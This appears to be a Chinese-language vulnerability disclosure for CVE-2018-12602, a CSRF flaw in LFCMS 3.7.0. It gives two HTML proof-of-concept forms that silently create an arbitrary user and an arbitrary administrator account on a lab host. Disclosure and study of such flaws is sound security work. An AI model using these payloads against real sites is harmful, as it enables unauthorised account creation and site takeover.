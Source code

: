 ### 漏洞简介  

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|LFCMS-3.7.0存在CSRF漏洞可添加任意用户账户或任意管理员账户|2018-06-20|Bay0net|[http://www.lfdycms.com/](http://www.lfdycms.com/) | [http://www.lfdycms.com/](http://www.lfdycms.com/) |3.7.0| [CVE-2018-12602](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-12602)|  

#### 漏洞概述  

> 攻击者可通过构造 CSRF 请求，来新增任意用户。   

### POC实现代码如下：  

> 通过CSRF增加任意用户 的exp代码如下：  

``` html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://10.211.55.17/lfdycms3.7.0/admin.php?s=/Users/add.html" method="POST">
      <input type="hidden" name="username" value="test222" />
      <input type="hidden" name="email" value="test2@qq.com" />
      <input type="hidden" name="password" value="test222" />
      <input type="hidden" name="repassword" value="test222" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
> 通过CSRF增加管理员用户 的exp代码如下：  

``` html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://10.211.55.17/lfdycms3.7.0/admin.php?s=/Member/add.html" method="POST">
      <input type="hidden" name="username" value="admin2" />
      <input type="hidden" name="password" value="admin2" />
      <input type="hidden" name="repassword" value="admin2" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
